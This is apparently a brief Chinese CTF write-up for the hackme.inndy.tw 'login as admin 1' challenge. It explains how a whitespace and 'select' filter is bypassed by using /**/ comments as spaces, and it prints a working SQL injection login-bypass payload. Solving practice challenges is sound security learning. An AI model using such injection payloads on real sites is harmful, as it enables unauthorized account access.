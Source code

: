 # inndy web login as admin 1
* [題目](https://hackme.inndy.tw/login1/)
1. 過濾掉空白字元和 select，但是工程師手殘所以把在 select 後面多了一個空白
2. 把多行註解當成空白字元就可以輕易繞過
```
輸入:
\'/**/OR/**/2=2/**/LIMIT/**/1,1#
```